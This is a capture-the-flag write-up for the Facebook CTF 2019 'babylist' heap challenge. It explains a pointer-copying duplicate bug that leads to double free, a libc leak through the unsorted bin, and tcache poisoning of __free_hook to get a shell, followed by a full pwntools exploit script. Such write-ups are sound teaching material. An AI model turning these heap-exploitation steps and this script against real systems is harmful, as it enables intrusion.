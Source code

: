 # Facebook CTF 2019 - babylist

This challenge is c++ binary.

```
$$$$$$$$$$$$$$$$$$$$$$$$$$
Welcome to babylist!
$$$$$$$$$$$$$$$$$$$$$$$$$$

1. Create a list
2. Add element to list
3. View element in list
4. Duplicate a list
5. Remove a list
6. Exit
>
```
It looks like heap challenge. List structure is as follows.

```
typedef list {
  char name[0x70];
  int *start; /* address of the first element in array */
  int *last;  /* address of the last element in array */
  int *limit; /* end of allocated array */
} List;
```

start, last, limit pointers points address of memory that is dynamically allocated.
When we add a element to list, the element added to array and last pointer is increased by 4(size of element).

When we add first element to list, the start pointer is initialized via `operator new(4)`. and internally(in binary)
it can store only one element. Each time the array is full, existing array is freed(deleted) and new array is allocated.
The size of array gets doubled each time.

Third menu 'View' has nothing special. Duplicating list literally copies a list. But an interesting point is that it
doesn't allocate new array and copies, instead copies start, last, limit pointer. So it can happen that
1. Make an list named A. Add elements until array in the list gets full.
2. Duplicate that list. Let's call duplicated list B.
3. Add a element in A. Then A gets newly allocated array(start, last, limit).
4. Array that B has is freed memory.

Also if we add a element in B, array that B has is again freed(double free). We can use this vulnerability later in exploit.
To leak the address of libc,
1. Make a list. and add elements until the size of array becomes large enough(larger than 0x80, which is fastbin chunk).
2. Add elements so that array gets full.
3. Duplicate the list 8 times.
4. Add a elements in each list except the the last list.
    - The same array is freed 8 times.
    - Binary uses glibc 2.27 which implements tcache. With first 7 frees, tcache gets saturated.
    - The last eighth free puts the chunk into unsorted bin.
5. View the value of first, second elements in 9th list.
    - Array of 9th list is pointer of freed chunk in unsorted bin.
    - First, second bytes are the address of somewhere in main_arena
    - We can get base address of libc.

After libc leak, the exploit scenario is as follows.
1. Make a list and add elements until the size of array becomes 0x91(including chunk header)
    - The reason we do this step is 0x91 is the same as the size of 'list' structure.
2. Duplicate this list 2 times.
3. Add a element in two lists.
    - Array is double freed. (tcache -> p -> p)
4. Make a list with its name value of address of __free_hook. (tcache -> p)
5. Make a list with its name value of "/bin/sh\x00". (tcache -> __free_hook)
    - Array of third list is '/bin/sh\x00'
    - Let's call this array A.
6. Make a list with its name value of address of system
    - __free_hook is allocated.
7. Add a element in 3rd list.
    - A is freed. That is, free(A)
    - __free_hook is overwritten with system and A has "/bin/sh"
    - free(A) is system("/bin/sh");
8. Get shell!

```
from pwn import *

bin = ELF('./babylist')
libc = ELF('./libc-2.27.so', checksec=False)

LOCAL = False

one_gadget_offset = [0x4f2c5, 0x4f322, 0x10a38c]


def create_list(name):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('name for list:\n', name)
    conn.recvuntil('List has been created!\n')


def add_element(idx, num):
    conn.sendlineafter('> ', str(2))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter number to add:\n', str(num))
    conn.recvuntil('Number successfully added to list!\n')


def view_element(list_idx, idx):
    conn.sendlineafter('> ', str(3))
    conn.sendlineafter('Enter index of list:\n', str(list_idx))
    conn.sendlineafter('Enter index into list:\n', str(idx))


def duplicate_list(idx, name):
    conn.sendlineafter('> ', str(4))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter name for new list:\n', name)
    conn.recvuntil('List has been duplicated!\n')


def remove_list(idx):
    conn.sendlineafter('> ', str(5))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.recvuntil('List has been deleted!\n')


if LOCAL:
    conn = process('./babylist', env={'LD_PRELOAD': './libc-2.27.so'})
    gdb.attach(conn)
else:
    conn = remote('challenges.fbctf.com', 1343)

# Stage 1: Libc Leak
create_list('AAAAAAAA')

for i in range(64):
    log.info(str(i))
    add_element(0, 1)

for i in range(8):
    duplicate_list(0, 'BBBBBBBB')

for i in range(8):
    add_element(i, 1)

view_element(8, 0)

conn.recvuntil('BBBBBBBB[0] = ')
lower = conn.recvuntil('\n')[:-1]
if lower.startswith('-'):
    lower = ~int(lower[1:]) + 1
else:
    lower = int(lower)

view_element(8, 1)
conn.recvuntil('BBBBBBBB[1] = ')
higher = int(conn.recvuntil('\n')[:-1]) + 1

libc_addr = (higher << 32) + lower - 0x3ebca0
log.info('Libc_addr: ' + hex(libc_addr))
log.info('One_gadget_addr: ' + hex(libc_addr + one_gadget_offset[1]))

# Stage 2
for i in range(9):
    remove_list(i)

create_list('CCCCCCCC')  # 0

for i in range(32):
    add_element(0, 1)

duplicate_list(0, 'DDDDDDDD')  # 1
duplicate_list(0, 'DDDDDDDD')  # 2

add_element(0, 1)
add_element(1, 1)

create_list(p64(libc_addr + libc.symbols['__free_hook']))
create_list('/bin/sh\x00')
create_list(p64(libc_addr + libc.symbols['system']))

conn.sendlineafter('> ', str(2))
conn.sendlineafter('Enter index of list:\n', str(2))
conn.sendlineafter('Enter number to add:\n', str(1))

conn.interactive()
```